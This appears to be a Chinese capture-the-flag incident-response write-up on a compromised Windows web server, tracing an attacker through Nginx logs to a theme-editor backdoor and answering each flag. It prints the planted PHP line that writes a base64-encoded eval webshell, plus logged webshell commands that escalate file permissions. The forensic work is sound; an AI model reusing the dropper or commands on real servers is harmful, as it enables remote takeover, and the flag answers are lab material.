




# 第四章 windows 实战 - wordpress

## 1

> 请提交攻击者攻击成功的第一时间，格式：`flag{YY:MM:DD hh:mm:ss}`

rdp 连接到服务器



定位到 Nginx 的日志目录 `C:\phpstudy_pro\Extensions\Nginx1.15.11\logs`

对 `access.log` 日志文件进行分析，可以定位到以下记录

```log
192.168.141.55 - - [29/Apr/2023:22:48:23 +0800] "GET /manage/options-theme.php HTTP/1.1" 200 12345 "http://192.168.141.188/manage/theme-editor.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:22:48:23 +0800] "GET /manage/theme-editor.php HTTP/1.1" 200 16037 "http://192.168.141.188/manage/options-theme.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:02:07 +0800] "POST /index.php/action/themes-edit?_=961610959bca6fdfe6766df40ec1e482 HTTP/1.1" 302 5 "http://192.168.141.188/manage/theme-editor.php?theme=default&file=post.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:02:07 +0800] "GET /manage/theme-editor.php?theme=default&file=post.php HTTP/1.1" 200 16012 "http://192.168.141.188/manage/theme-editor.php?theme=default&file=post.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:02:10 +0800] "GET / HTTP/1.1" 200 6680 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:02:12 +0800] "GET /index.php/archives/1/ HTTP/1.1" 200 13456 "http://192.168.141.188/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:02:13 +0800] "GET /index.php/category/default/ HTTP/1.1" 200 7004 "http://192.168.141.188/index.php/archives/1/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:02:21 +0800] "GET /.x.php?cmd=system(%27whoami%27); HTTP/1.1" 200 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:02:25 +0800] "GET /.x.php?x=system(%27whoami%27); HTTP/1.1" 200 34 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:05:39 +0800] "POST /.x.php HTTP/1.1" 200 152 "-" "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.93 Safari/537.36"
192.168.141.55 - - [29/Apr/2023:23:05:49 +0800] "POST /.x.php HTTP/1.1" 200 157 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:21.0) Gecko/20100101 Firefox/21.0"
192.168.141.55 - - [29/Apr/2023:23:05:49 +0800] "POST /.x.php HTTP/1.1" 200 438 "-" "Opera/9.80 (Windows NT 6.1; U; zh-cn) Presto/2.7.62 Version/11.01"
192.168.141.55 - - [29/Apr/2023:23:05:51 +0800] "POST /.x.php HTTP/1.1" 200 443 "-" "Mozilla/4.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/5.0)"
192.168.141.55 - - [29/Apr/2023:23:08:51 +0800] "GET /.x.php?cmd=net%20user HTTP/1.1" 200 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:08:51 +0800] "GET /favicon.ico HTTP/1.1" 404 154 "http://192.168.141.188/.x.php?cmd=net%20user" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:09:00 +0800] "GET /.x.php?x=system(%27takeown%20/f%20index.php%27); HTTP/1.1" 200 112 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:09:52 +0800] "GET /.x.php?x=system(%27cacls%20%20install.php%20/p%20everyone:f%20/e%27); HTTP/1.1" 200 56 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
```

可以确认，在这部分，攻击者成功实现了文件上传，上传了 webshell 文件 `.x.php` 并执行了命令

结合文件上传常用的为 POST 方法，并结合 Wordpress 常见的，结合主题功能实现的文件上传，可以确定攻击者上传 webshell 的时间

但是答案不对，很明显，在逻辑上，基于主题功能上传文件的前提，是成功登陆后台，所以攻击者成功攻击的时间应该往前推移至攻击者成功登陆后台的日志

```log
192.168.141.55 - - [29/Apr/2023:22:44:38 +0800] "POST /index.php/action/login?_=139102b0477b064f9cf570483837d74c HTTP/1.1" 302 5 "http://192.168.141.188/manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:22:44:38 +0800] "GET /manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F HTTP/1.1" 200 7229 "http://192.168.141.188/manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:22:45:23 +0800] "POST /index.php/action/login?_=139102b0477b064f9cf570483837d74c HTTP/1.1" 302 5 "http://192.168.141.188/manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:22:45:23 +0800] "GET /manage/ HTTP/1.1" 302 5 "http://192.168.141.188/manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:22:45:23 +0800] "GET /manage/welcome.php HTTP/1.1" 200 10013 "http://192.168.141.188/manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:22:45:32 +0800] "GET /manage/themes.php HTTP/1.1" 200 11080 "http://192.168.141.188/manage/welcome.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
```

```flag
flag{2023:04:29 22:45:23}
```

## 2

> 请提交攻击者的浏览器版本 `flag{Firgfox/2200}`

定位攻击者访问后台的记录，得到 User-agent 的信息为

```plaintext
Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
```

即可得到答案

```flag
flag{Firefox/110.0}
```

## 3

> 请提交攻击者目录扫描所使用的工具名称

根据上一题的信息，已经可以确定攻击者的 ip 地址为 `192.168.141.55`

往上定位日志，可以发现大量的 `HTTP Status 404` 的请求，可以确定为目录扫描，这些请求的 User-agent 都是 `Fuzz Faster U Fool v1.5.0`

即可确定答案

```flag
flag{Fuzz Faster U Fool}
```

## 4

> 找到攻击者写入的恶意后门文件，提交文件名（完整路径）

在第一问的排查过程中，已经定位到了攻击者上传的 webshell 文件为 `.x.php`

定位到 `Phpstudy` 的 WWW 目录，定位到相关文件



即可确定答案

```flag
flag{C:\phpstudy_pro\WWW\.x.php}
```

## 5

> 找到攻击者隐藏在正常 web 应用代码中的恶意代码，提交该文件名（完整路径）

根据文件修改时间，配合常见的关键词和发现的 webshell，定位到 `C:\phpstudy_pro\WWW\usr\themes\default\post.php` 文件

```php
<?php @file_put_contents('.x.php',base64_decode('PD9waHAgQGV2YWwoJF9SRVFVRVNUWyd4J10pOyA/Pg=='));?>
```

很明显，写了一个 webshell 维持

```flag
flag{C:\phpstudy_pro\WWW\usr\themes\default\post.php}
```

## 6

> 请指出可疑进程采用的自动启动的方式，启动的脚本的名字 `flag{1.exe}`

结合题目说到的自动启动的方式，排查 `shell:Startup` 目录，服务等能够实现自启动的方式，并不能找到

在常见的目录进行排查，定位到



将样本提取出来进行分析



结合题目要求的，确定启动的 **Script** 的名字，即可确定答案

```flag
flag{x.bat}
```
